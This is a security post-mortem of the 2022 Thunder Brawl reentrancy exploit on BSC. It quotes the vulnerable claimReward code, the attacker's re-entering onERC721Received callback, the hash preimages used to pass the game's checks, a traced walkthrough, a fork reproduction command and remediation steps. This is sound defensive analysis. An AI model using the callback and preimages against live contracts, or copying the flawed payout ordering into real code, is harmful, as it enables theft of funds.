


# Thunder Brawl (THB) Exploit — `claimReward()` Reentrancy via ERC-721 Mint Callback

> **Reproduction:** the PoC compiles & runs in an isolated Foundry project at
> [this project folder](.) (the umbrella DeFiHackLabs repo contains many unrelated PoCs
> that do not whole-compile, so this one was extracted).
> Full verbose trace: [output.txt](output.txt).
> Verified vulnerable sources:
> [House_Wallet.sol](sources/House_Wallet_ae191C/House_Wallet.sol) ·
> [THB_Roulette.sol](sources/THB_Roulette_72e901/THB_Roulette.sol).

---

## Key info

| | |
|---|---|
| **Loss** | Reentrant draining of `House_Wallet`'s BNB: the single winning bet of **0.30828 BNB** was paid out **5×** (≈ **3.08 BNB** of `2× amount` payouts for one 0.32 BNB deposit), plus 5 NFTs minted for free. Historically reported by SlowMist as a ~$2K incident. |
| **Vulnerable contracts** | `House_Wallet` — [`0xae191Ca19F0f8E21d754c6CAb99107eD62B6fe53`](https://bscscan.com/address/0xae191Ca19F0f8E21d754c6CAb99107eD62B6fe53#code) · `THB_Roulette` (THBR NFT) — [`0x72e901F1bb2BfA2339326DfB90c5cEc911e2ba3C`](https://bscscan.com/address/0x72e901F1bb2BfA2339326DfB90c5cEc911e2ba3C#code) |
| **Victim** | `House_Wallet` BNB balance (the casino bankroll) + `THB_Roulette` reward mint slots |
| **Attacker EOA / contract** | Replayed in PoC as `ContractTest` (`0x7FA9385bE102ac3EAc297483Dd6233D62b3e1496`, Foundry default test sender) |
| **Attack tx** | Reproduced via fork; original incident: Thunder Brawl Roulette, BSC, Sept 2022 |
| **Chain / block / date** | BSC / fork at block **21,785,004** / September 2022 |
| **Compiler** | Solidity `v0.8.7+commit.e28d00a7`, optimizer **on, 200 runs** (both contracts) |
| **Bug class** | Classic reentrancy — external mint callback (`onERC721Received`) fires **before** the win record is cleared (CEI violation); compounded by a permissionless `reward()` mint and on-chain-derivable "secret" hashes |

---

## TL;DR

`House_Wallet.claimReward()`
([House_Wallet.sol:248-274](sources/House_Wallet_ae191C/House_Wallet.sol#L248-L274))
pays a winner `2× amount`, then mints them a reward NFT, **and only after that deletes the
win record** (`delete winners[_ID][_player]`). The NFT mint is a `_safeMint`, which calls the
recipient's `onERC721Received` hook **before** `delete` runs. Because the win record
`winners[_ID][_player]` is still live during the callback, the attacker re-enters `claimReward()`
with the *same* parameters, passes the `winners[_ID][_player] == _amount` check again, and is paid
`2× amount` a second time — and a third, and so on.

In the reproduced trace one legitimate 0.32 BNB bet (recorded win = `0.30828 BNB`) is cashed out
**5 times** (5 × `0.6166 BNB` = `3.08 BNB`), and 5 THBR NFTs (tokenIds 632–636) are minted, before
the attacker's own balance guard stops the recursion. The `delete` finally runs once, at the
deepest frame, far too late to matter.

Two design choices make the bet itself free to set up:

1. The "win" and "claim validity" checks are `sha256(abi.encode(_x, name, _add)) == hashValue` with
   **hard-coded, on-chain-readable hashes** — the attacker just supplies the matching preimage
   constants that satisfy them.
2. `THB_Roulette.reward()`
   ([THB_Roulette.sol:1532-1540](sources/THB_Roulette_72e901/THB_Roulette.sol#L1532-L1540)) has
   **no access control** — anyone can mint reward NFTs — so the mint callback that drives the
   reentrancy is fully attacker-reachable.

---

## Background — what the game does

Thunder Brawl is an on-chain "roulette/shooting" game on BSC built from two contracts:

- **`House_Wallet`** ([source](sources/House_Wallet_ae191C/House_Wallet.sol)) — holds the BNB
  bankroll and runs the game. Players call `shoot()` with a bet (between `0.006` and `0.32` BNB).
  If they "win", their winnings are recorded in `winners[gameId][player]`. They later call
  `claimReward()` to collect `2× amount` and receive a reward NFT.
- **`THB_Roulette`** ([source](sources/THB_Roulette_72e901/THB_Roulette.sol)) — the `THBR`
  ERC-721 reward NFT (OpenZeppelin `ERC721Enumerable`). `House_Wallet.sendReward()` mints it via
  `reward(msg.sender, 1)`.

On-chain facts at the fork block (read from the trace):

| Parameter | Value |
|---|---|
| `gameMode` | `true` (game live; `require(gameMode)` in both `shoot` and `claimReward` passes) |
| `hashValue` (claim check) | `0x4061…c651` — checked by `guess()` |
| `hashValueTwo` (win check) | `0x52ed…8265` — checked by `guessWin()` |
| Recorded win for the attacker | `winners[1][attacker] = 308285163776493257` wei = **0.30828 BNB** |
| `claimReward` payout | `_amount * 2 = 616570327552986514` wei = **0.6166 BNB** |
| `THB_Roulette.reward()` access control | **none** (any caller) |
| Reward mint counter (`rewardTotal`) before | 0 |

The whole game is that `claimReward` pays `2×` the recorded bet and then mints an NFT *through a
callback*, while the record that authorizes the payout is deleted last.

---

## The vulnerable code

### 1. `claimReward` — pay, then mint (callback), then delete (CEI violation)

[House_Wallet.sol:248-274](sources/House_Wallet_ae191C/House_Wallet.sol#L248-L274):

```solidity
function claimReward(
    uint256 _ID,
    address payable _player,
    uint256 _amount,
    bool _rewardStatus,
    uint256 _x,
    string memory name,
    address _add
) external {
    require(gameMode);
    bool checkValidity = guess(_x, name, _add);          // sha256 preimage check (public hash)

    if (checkValidity == true) {
        if (winners[_ID][_player] == _amount) {          // ① CHECK — still true on re-entry
            _player.transfer(_amount * 2);               // ② INTERACTION — pay 2× (2300 gas, no reenter)
            if (_rewardStatus == true) {
                sendReward();                            // ③ INTERACTION — mints NFT → onERC721Received
            }
            delete winners[_ID][_player];                // ④ EFFECT — TOO LATE, runs after callback
        } else {
            if (_rewardStatus == true) {
                sendRewardDys();
            }
        }
        rewardStatus = false;
    }
}
```

The fatal ordering is ①→②→③→④. The state that gates the payout (`winners[_ID][_player]`) is only
cleared at step ④, **after** the NFT mint at step ③ has already handed control to the attacker.

### 2. `sendReward` → `THB_Roulette.reward()` is permissionless and uses `_safeMint`

[House_Wallet.sol:240-242](sources/House_Wallet_ae191C/House_Wallet.sol#L240-L242):

```solidity
function sendReward() public {
    thunderbrawlRoulette.reward(msg.sender, 1);
}
```

[THB_Roulette.sol:1532-1540](sources/THB_Roulette_72e901/THB_Roulette.sol#L1532-L1540):

```solidity
function reward(address to, uint256 _mintAmount) external {   // ← NO access control
    uint256 supply = totalSupply();
    uint256 rewardSupply = rewardTotal;
    require(rewardSupply <= rewardSize, "");
    for (uint256 i = 1; i <= _mintAmount; i++) {
        _safeMint(to, supply + i);                            // ← _safeMint ⇒ onERC721Received callback
        rewardTotal++;
    }
}
```

`_safeMint` (OpenZeppelin, [THB_Roulette.sol:1050-1060](sources/THB_Roulette_72e901/THB_Roulette.sol#L1050-L1060))
calls `_checkOnERC721Received`
([THB_Roulette.sol:1189-1211](sources/THB_Roulette_72e901/THB_Roulette.sol#L1189-L1211)), which
invokes `to.onERC721Received(...)` for any contract recipient. That is the re-entry door.

### 3. The "secrets" are public hashes

[House_Wallet.sol:148-151](sources/House_Wallet_ae191C/House_Wallet.sol#L148-L151) and
[House_Wallet.sol:224-238](sources/House_Wallet_ae191C/House_Wallet.sol#L224-L238):

```solidity
bytes32 hashValue    = 0x4061e8ae4207343a0e11b687633f43176cf1ef6309011db9b4a435bb7678c651;
bytes32 hashValueTwo = 0x52ed2f0b7486dfed2ec4abef928f81bc612c7564373fe2b9d42e74ff21d18265;
...
function guess(uint256 _x, string memory name, address _add) public view returns (bool) {
    return sha256(abi.encode(_x, name, _add)) == hashValue;       // claim-validity gate
}
function guessWin(uint256 _x, string memory name, address _add) public view returns (bool) {
    return sha256(abi.encode(_x, name, _add)) == hashValueTwo;    // win gate
}
```

The PoC simply hands over preimages that hash to these stored values (the `_x / name / _add`
constants in [test/THB_exp.sol:41-57](test/THB_exp.sol#L41-L57)), so both gates pass with no luck
involved.

---

## Root cause — why it was possible

The core defect is a textbook **checks-effects-interactions violation**: `claimReward` performs the
state-clearing effect (`delete winners[_ID][_player]`) *after* an external interaction
(`sendReward()` → `_safeMint` → `onERC721Received`) that yields control to the recipient. While the
attacker holds control inside `onERC721Received`, the authorizing record is untouched, so the
payout condition `winners[_ID][_player] == _amount` is still satisfied and the function can be
re-entered for another `2× amount` payout.

Three secondary decisions turn this from "theoretically reentrant" into "trivially drainable":

1. **The mint is a `_safeMint` to an attacker-controlled contract.** `_safeMint` is *defined* to
   call back into the recipient. Using it as the payout's final step puts an attacker hook squarely
   in the middle of the un-finished state transition.
2. **`THB_Roulette.reward()` has no access control.** Even if `House_Wallet` were trusted, the mint
   path it invokes is open to anyone, and it is the callback inside that mint that the attacker
   weaponizes. There is no `onlyOwner` / `onlyHouseWallet` guard
   ([THB_Roulette.sol:1532](sources/THB_Roulette_72e901/THB_Roulette.sol#L1532)).
3. **No reentrancy guard anywhere.** `House_Wallet` has no `nonReentrant` modifier; neither contract
   inherits `ReentrancyGuard`. A single `nonReentrant` on `claimReward` would have closed the hole
   even with the bad ordering.

The payout multiplier `2×` (`_player.transfer(_amount * 2)`) makes every re-entry net-positive:
each recursion pays out twice the original single bet, so the attacker extracts `2× amount` per
loop until the contract's BNB runs low — which is exactly the stop condition the attacker codes into
its own callback.

---

## Preconditions

- `gameMode == true` (the `require(gameMode)` in both `shoot` and `claimReward` must pass — it was
  live at the fork block).
- A live win record: the attacker first calls `shoot{value: 0.32 ether}` with preimages that satisfy
  `guessWin`, so `winners[1][attacker]` is set to `msg.value - playerFee = 0.30828 BNB`
  ([House_Wallet.sol:177-188](sources/House_Wallet_ae191C/House_Wallet.sol#L177-L188)).
- The claimant is a **contract** that implements `onERC721Received` and re-enters `claimReward`
  ([test/THB_exp.sol:78-89](test/THB_exp.sol#L78-L89)).
- Preimages for the two stored hashes (`hashValue`, `hashValueTwo`) — these are fixed, on-chain, and
  reused, so they are effectively public.
- Enough BNB in `House_Wallet` to satisfy several `2× amount` payouts; the recursion self-limits when
  the attacker's `address(houseWallet).balance >= _amount * 2` guard fails.

No flash loan or price manipulation is needed; the only capital outlay is the single 0.32 BNB bet,
returned many times over.

---

## Attack walkthrough (with on-chain numbers from the trace)

All figures are taken directly from [output.txt](output.txt). The attacker is the `ContractTest`
PoC contract at `0x7FA9…1496`.

| # | Step | Trace ref | Effect |
|---|------|-----------|--------|
| 0 | **Bet.** `shoot{value: 0.32 BNB}(random, gameId=1, …, nftcheck=true, dystopianCheck=true)` with the winning preimage `_x / name / _add` | [output.txt:19](output.txt) | `winners[1][attacker] = 308285163776493257` wei (**0.30828 BNB**); internal fee/state slots 3–6,11 updated |
| 1 | **Read win.** `winners(1, attacker)` → `308285163776493257` | [output.txt:30-31](output.txt) | confirms `_amount` to pass into `claimReward` |
| 2 | **Claim #1 (outer).** `claimReward(1, attacker, 0.30828 BNB, true, …)` → `guess()` passes → `_player.transfer(2× = 0.6166 BNB)` → `sendReward()` | [output.txt:32-37](output.txt) | attacker `receive()` gets **0.6166 BNB**; `reward()` begins mint |
| 3 | **Mint #1 + callback.** `_safeMint` mints **tokenId 632** → `onERC721Received` fires **before** `delete winners` | [output.txt:38-39](output.txt) | control handed to attacker while `winners[1][attacker]` still == 0.30828 BNB |
| 4 | **Re-enter Claim #2.** callback re-calls `claimReward(...)` (same args) → check passes → pay **0.6166 BNB** → mint **tokenId 633** → callback | [output.txt:42-49](output.txt) | second full payout; nested deeper |
| 5 | **Re-enter Claim #3.** pay **0.6166 BNB** → mint **tokenId 634** → callback | [output.txt:52-59](output.txt) | third payout |
| 6 | **Re-enter Claim #4.** pay **0.6166 BNB** → mint **tokenId 635** → callback | [output.txt:62-69](output.txt) | fourth payout |
| 7 | **Re-enter Claim #5.** pay **0.6166 BNB** → mint **tokenId 636** → callback | [output.txt:72-79](output.txt) | fifth payout |
| 8 | **Recursion stops.** at the deepest `onERC721Received` (tokenId 636), the attacker's guard `houseWallet.balance >= _amount * 2` is now **false**, so it does **not** re-enter; returns the ERC-721 selector | [output.txt:79-82](output.txt) | unwinding begins |
| 9 | **`delete` finally runs.** as the stack unwinds, `delete winners[1][attacker]` executes (the win record is zeroed) | [output.txt:94](output.txt) (`slot … 0x0447…c6c9 → 0`) | far too late — 5 payouts already made |
| 10 | **Result.** `THBR.balanceOf(attacker)` = **5** (was 0); 5 NFTs minted (632–636) | [output.txt:143-145](output.txt) | PoC assertion: `0 → 5` |

The attacker's `onERC721Received` is the engine of the loop
([test/THB_exp.sol:78-89](test/THB_exp.sol#L78-L89)):

```solidity
function onERC721Received(address, address, uint256, bytes calldata)
    external payable returns (bytes4)
{
    uint256 _amount = houseWallet.winners(gameId, add);            // still 0.30828 BNB
    if (address(houseWallet).balance >= _amount * 2) {            // can the house still pay 2×?
        houseWallet.claimReward(gameId, add, _amount, _rewardStatus, _x1, name1, _add);  // re-enter
    }
    return this.onERC721Received.selector;
}
```

### Profit / loss accounting (BNB)

| Direction | Amount |
|---|---:|
| Spent — single `shoot` bet | 0.32 BNB |
| Received — claim payout #1 (`2× 0.30828`) | 0.61657 BNB |
| Received — claim payout #2 | 0.61657 BNB |
| Received — claim payout #3 | 0.61657 BNB |
| Received — claim payout #4 | 0.61657 BNB |
| Received — claim payout #5 | 0.61657 BNB |
| **Total received** | **3.08285 BNB** |
| **Net BNB extracted** | **≈ +2.7629 BNB** |
| Bonus | 5 THBR NFTs (tokenIds 632–636) minted for free |

Each `claimReward` pays `2 × 0.30828 = 0.61657 BNB`; five executions drain `3.08285 BNB` from the
`House_Wallet` bankroll for one 0.32 BNB deposit — a ~9.6× return, bounded only by the house's
remaining balance (the attacker's own guard cuts the loop off when the next `2× amount` payout would
overrun it). Repeating the whole sequence (or sizing the bet) lets an attacker drain the bankroll to
the last `< 2× amount`.

---

## Diagrams

### Sequence of the attack



### Control flow inside `claimReward` (where the re-entry slips in)



### House bankroll vs. NFT balance across the 5 re-entrant claims

```mermaid
stateDiagram-v2
    direction LR
    [*] --> Bet
    Bet : "After shoot()<br/>winners[1][A]=0.30828 BNB<br/>NFTs(A)=0"
    Claim1 : "Claim #1 (tokenId 632)<br/>+0.6166 BNB to A<br/>NFTs(A)=1"
    Claim2 : "Claim #2 (tokenId 633)<br/>+0.6166 BNB to A<br/>NFTs(A)=2"
    Claim3 : "Claim #3 (tokenId 634)<br/>+0.6166 BNB to A<br/>NFTs(A)=3"
    Claim4 : "Claim #4 (tokenId 635)<br/>+0.6166 BNB to A<br/>NFTs(A)=4"
    Claim5 : "Claim #5 (tokenId 636)<br/>+0.6166 BNB to A<br/>NFTs(A)=5"
    Cleared : "Unwind: delete winners[1][A]<br/>(too late)<br/>Total drained 3.08 BNB"

    Bet --> Claim1 : "claimReward (CEI broken)"
    Claim1 --> Claim2 : "onERC721Received re-enters"
    Claim2 --> Claim3 : "re-enter"
    Claim3 --> Claim4 : "re-enter"
    Claim4 --> Claim5 : "re-enter"
    Claim5 --> Cleared : "balance guard false → stop"
    Cleared --> [*]
```



---

## Why each magic number

- **`shoot{value: 0.32 ether}`** — the bet must satisfy `0.32e18 >= msg.value && 0.006e18 <= msg.value`
  ([House_Wallet.sol:177](sources/House_Wallet_ae191C/House_Wallet.sol#L177)); 0.32 BNB is the max,
  recording the largest possible win (`msg.value - playerFee = 0.30828 BNB`) and so the largest `2×`
  payout per re-entry.
- **`_x = 2_845_798_…258_446`, `name = "HATEFUCKING…PREVIOUS"`, `_add = 0x6Ee7…1ce1`** — preimages
  whose `sha256(abi.encode(...))` equals `hashValueTwo` (`0x52ed…8265`), so `guessWin` returns true
  inside `shoot` and the win is recorded
  ([test/THB_exp.sol:46-48](test/THB_exp.sol#L46-L48), confirmed by the
  `PRECOMPILES::sha256 → 0x52ed…8265` at [output.txt:20-21](output.txt)).
- **`_x1 = 969_820_…468_486`, `name1 = "WELCOMETO…GAME"`, `_add = 0x6Ee7…1ce1`** — preimages whose
  `sha256` equals `hashValue` (`0x4061…c651`), so `guess` returns true inside `claimReward`
  ([test/THB_exp.sol:55-57](test/THB_exp.sol#L55-L57), confirmed by the repeated
  `PRECOMPILES::sha256 → 0x4061…c651` at [output.txt:33-34](output.txt)).
- **`_amount = 0.30828 BNB`** — read live from `winners(1, attacker)`; it must exactly equal the
  stored record for the `winners[_ID][_player] == _amount` check to pass on every re-entry.
- **`balance >= _amount * 2` guard in the callback** — the attacker's own stop condition; it lets the
  loop run as long as the house can still pay another `2×` payout, then halts gracefully so the final
  `claimReward` doesn't revert on a failed `transfer`.

---

## Remediation

1. **Checks-Effects-Interactions.** Delete the win record **before** any external interaction:
   ```solidity
   if (winners[_ID][_player] == _amount) {
       delete winners[_ID][_player];     // ← EFFECT first
       _player.transfer(_amount * 2);    // then INTERACTION
       if (_rewardStatus) sendReward();
   }
   ```
   With the record cleared first, the re-entrant `claimReward` fails the `== _amount` check and the
   loop is dead.
2. **Add a reentrancy guard.** Inherit OpenZeppelin `ReentrancyGuard` and mark `claimReward` (and
   `shoot`) `nonReentrant`. This stops re-entry even if the ordering is wrong.
3. **Lock down `THB_Roulette.reward()`.** It must only be callable by the `House_Wallet`
   (`require(msg.sender == houseWallet)` or an `onlyMinter` role)
   ([THB_Roulette.sol:1532](sources/THB_Roulette_72e901/THB_Roulette.sol#L1532)). As written, anyone
   can mint reward NFTs and, more importantly, the open mint path is what supplies the attacker's
   callback hook.
4. **Don't use `_safeMint` as a payout side-effect, or mint last with no further state.** If a
   callback-bearing mint must happen, do it strictly after all state is finalized and all funds are
   sent, and treat the callback as untrusted.
5. **Stop relying on stored hashes as secrets.** `hashValue` / `hashValueTwo` and their preimages are
   on-chain and reused; any "win"/"claim" gate built on them is forgeable. Use a commit-reveal scheme
   with per-game nonces, or a signed authorization from an off-chain operator, so a winning claim
   cannot be replayed or fabricated.
6. **Use `.call` with success checks instead of `.transfer`**, and follow pull-over-push for payouts,
   so the bankroll cannot be drained by a recipient that re-enters during the reward step.

---

## How to reproduce

The PoC was extracted into a standalone Foundry project (the umbrella DeFiHackLabs repo has many
unrelated PoCs that fail to whole-compile under `forge test`):

```bash
_shared/run_poc.sh 2022-09-THB_exp --mt testExploit -vvvvv
```

- RPC: a **BSC archive** endpoint is required (fork block **21,785,004**). Most public BSC RPCs prune
  state that old and fail with `header not found` / `missing trie node`.
- The test only asserts the NFT balance jump (`0 → 5`) as a compact proxy for the reentrancy; the
  BNB drain (5 × `0.6166 BNB`) is visible in the trace's `receive{value: 616570327552986514}` lines.

Expected tail ([output.txt](output.txt)):

```
Ran 1 test for test/THB_exp.sol:ContractTest
[PASS] testExploit() (gas: 798091)
Logs:
  Attacker THBR balance before exploit: 0
  Attacker THBR balance after exploit: 5
...
Suite result: ok. 1 passed; 0 failed; 0 skipped
```

The `before: 0 → after: 5` (five reward NFTs minted in one transaction from a single win record)
is the mechanical signature of the reentrancy: each NFT corresponds to one extra, unauthorized
`claimReward` payout.

---

*Reference: DeFiHackLabs — Thunder Brawl (THB), BSC, September 2022. SlowMist Hacked:
https://hacked.slowmist.io/*
